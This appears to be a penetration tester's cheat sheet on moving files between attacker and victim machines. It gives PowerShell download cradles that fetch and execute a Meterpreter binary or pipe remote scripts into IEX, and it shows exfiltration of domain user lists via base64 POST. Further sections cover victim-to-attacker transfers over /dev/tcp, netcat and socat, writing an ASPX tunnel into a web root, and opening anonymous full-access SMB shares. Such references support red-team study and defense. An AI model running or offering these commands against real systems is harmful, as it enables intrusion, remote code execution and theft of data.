 # File Transfer

* [https://blog.ropnop.com/transferring-files-from-kali-to-windows/](https://blog.ropnop.com/transferring-files-from-kali-to-windows/)
* [https://github.com/evilmog/evilmog/wiki/DNS-Download-Cradle](https://github.com/evilmog/evilmog/wiki/DNS-Download-Cradle)

{% embed url="https://snovvcrash.github.io/2018/10/11/simple-http-servers.html" caption="Об HTTP-серверах для трансфера файлов в Linux" %}




## Base64

String to base64 and POST with PowerShell:

```
PS > $str = cmd /c net user /domain
PS > $base64str = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
PS > IWR -Uri http://127.0.0.1/msg -Method POST -Body $base64str
```

File to base64 with `certutil`:

```
Cmd > certutil -encode <FILE_TO_ENCODE> C:\Windows\Temp\encoded.b64
Cmd > type C:\Windows\Temp\encoded.b64
```

Base64 file transfer from Linux to Windows:

```
$ base64 -w0 tunnel.aspx; echo
...BASE64_CONTENTS...
PS > Add-Content -Encoding UTF8 tunnel.b64 "<BASE64_CONTENTS>" -NoNewLine
PS > $data = Get-Content -Raw tunnel.b64
PS > [IO.File]::WriteAllBytes("C:\inetpub\wwwroot\uploads\tunnel.aspx", [Convert]::FromBase64String($data))
```




## Hex

Compress a binary file and transfer it to Windows by copy-pasting commands into the console:

```
$ upx -9 file.exe
$ exe2hex -x file.exe -p file.cmd
$ cat file.cmd | xclip -i -sel c
```




## PowerShell

PowerShell upload file:

```
PS > (New-Object Net.WebClient).UploadFile("http://10.10.13.37/file.txt", "file.txt")
```

PowerShell auto detect proxy, download file from remote HTTP server and run it:

```powershell
$proxyAddr=(Get-ItemProperty "HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings").ProxyServer;$proxy=New-Object System.Net.WebProxy;$proxy.Address=$proxyAddr;$proxy.UseDefaultCredentials=$true;$client=New-Object System.Net.WebClient;$client.Proxy=$proxy;$client.DownloadFile("http://10.10.13.37/met.exe","$env:userprofile\music\met.exe");$exec=New-Object -com shell.application;$exec.shellexecute("$env:userprofile\music\met.exe")
```

PowerShell manually set proxy and upload file to remote HTTP server:

```powershell
$client=New-Object System.Net.WebClient;$proxy=New-Object System.Net.WebProxy("http://proxy.megacorp.local:3128",$true);$creds=New-Object Net.NetworkCredential("snovvcrash","Passw0rd!","megacorp.local");$creds=$creds.GetCredential("http://proxy.megacorp.local","3128","KERBEROS");$proxy.Credentials=$creds;$client.Proxy=$proxy;$client.UploadFile("http://10.10.13.37/results.txt","results.txt")
```

Another proxy-aware download cradle:

```powershell
New-PSDrive -Name HKU -PSProvider Registry -Root HKEY_USERS | Out-Null
$keys = Get-ChildItem "HKU:\" -ErrorAction SilentlyContinue
ForEach ($key in $keys) {if ($key.Name -like "*S-1-5-21-*") {$start=$key.Name.Substring(10);break}}
$proxyAddr=(Get-ItemProperty -Path "HKU:$start\Software\Microsoft\Windows\CurrentVersion\Internet Settings\").ProxyServer
[System.Net.WebRequest]::DefaultWebProxy = New-Object System.Net.WebProxy("http://$proxyAddr")
$wc = New-Object System.Net.WebClient
$wc.DownloadString("http://10.10.13.37/test.txt") | IEX
Remove-PSDrive -Name HKU -Force
```




## /dev/tcp

Attacker is the sender:

```
# Sender:
root@kali:~$ tar -zcvf folder.tar.gz folder
root@kali:~$ nc -w3 -lvnp 1234 < folder.tar.gz
# Recipient:
www-data@victim:~$ bash -c 'cat < /dev/tcp/127.0.0.1/1234 > .folder.tar.gz'
www-data@victim:~$ tar -zxvf .folder.tar.gz
```

Victim is the sender:

```
# Recipient:
root@kali:~$ nc -w3 -lvnp 1234 > file.txt
# Sender:
www-data@victim:~$ bash -c 'cat < file.txt > /dev/tcp/127.0.0.1/1234'
```




## socat

Recipient (Attacker):

```
$ socat TCP-LISTEN:1337 OPEN:data.tar,create,append
```

Sender (Victim):

```
$ tar cf - /dev/shm/data | socat TCP:10.10.13.37:1337 -
```




## SMB



### smbserver.py

Start SMB server:

```
$ smbserver.py -smb2support share `pwd`
```

Mount SMB in Windows with `net use`:

```
$ smbserver.py -username snovvcrash -password 'Passw0rd!' -smb2support share `pwd`
Cmd > net use Z: \\10.10.13.37\share
Cmd > net use Z: \\10.10.13.37\share /u:snovvcrash 'Passw0rd!'
```

Mount SMB in Windows with `New-PSDrive`:

```
$ smbserver.py -username snovvcrash -password 'Passw0rd!' -smb2support share `pwd`
PS > $pass = 'Passw0rd!' | ConvertTo-SecureString -AsPlainText -Force
PS > $cred = New-Object System.Management.Automation.PSCredential('snovvcrash', $pass)
Or
PS > $cred = New-Object System.Management.Automation.PSCredential('snovvcrash', $(ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force))
PS > New-PSDrive -Name Z -Root \\10.10.13.37\share -Credential $cred -PSProvider FileSystem
PS > cd Z:
```



### net share

```
Cmd > net share pentest=c:\smb_pentest /GRANT:"Anonymous Logon,FULL" /GRANT:"Everyone,FULL"
Or
Cmd > net share pentest=c:\smb_pentest /GRANT:"Administrator,FULL"
Cmd > net share pentest /delete
```




## FTP

```
$ python -m pip install pyftpdlib
$ python -m pyftpdlib -Dwp 2121
Cmd > cd C:\Windows\System32\spool\drivers\color
Cmd > echo 'open 127.0.0.1 2121' > ftp.txt
Cmd > echo 'user anonymous' >> ftp.txt
Cmd > echo 'anonymous' >> ftp.txt
Cmd > echo 'binary' >> ftp.txt
Cmd > echo 'put file.bin' >> ftp.txt
Cmd > echo 'bye' >> ftp.txt
Cmd > ftp -v -n -s:ftp.txt
```




## TFTP

Send `file.exe` from Windows to Linux (TFTP client must be [enabled](https://teckangaroo.com/enable-tftp-windows-10/) on Windows):

```
$ sudo atftpd --daemon --bind 10.10.13.37 --port 69 ./tftp
Cmd > tftp -i 10.10.13.37 put file.exe
$ sudo pkill atftpd
```




## Exfiltration / Infiltration

- [https://xakep.ru/2022/09/22/infilltration-and-exfiltration/](https://xakep.ru/2022/09/22/infilltration-and-exfiltration/)
- [https://github.com/s0i37/exfiltrate](https://github.com/s0i37/exfiltrate)




## Tools



### http-server

- [https://github.com/http-party/http-server](https://github.com/http-party/http-server)

```
$ sudo apt install npm -y
$ sudo npm install http-server -g
$ sudo http-server -d false -p 443 -S -C /etc/letsencrypt/live/example.com/cert.pem -K /etc/letsencrypt/live/example.com/privkey.pem --log-ip | tee http-server.log
```



### goshs

- [https://github.com/patrickhener/goshs](https://github.com/patrickhener/goshs)

```
$ eget -qs linux/amd64 "patrickhener/goshs" --to ~/tools/goshs
$ sudo ~/tools/goshs/goshs -ro -si -p 443 -s -sc /etc/letsencrypt/live/example.com/cert.pem -sk /etc/letsencrypt/live/example.com/privkey.pem -V | tee goshs.log
```



### simplehttpserver

- [https://github.com/projectdiscovery/simplehttpserver](https://github.com/projectdiscovery/simplehttpserver)

```
$ eget -qs linux/amd64 "projectdiscovery/goshs" --to ~/tools/pd
$ sudo ~/tools/pd/simplehttpserver -listen 10.10.13.37:1337 -path `pwd` -upload -https -cert /etc/letsencrypt/live/example.com/fullchain.pem -key /etc/letsencrypt/live/example.com/privkey.pem -domain example.com -basic-auth 'snovvcrash:Passw0rd!' -max-file-size 100
```
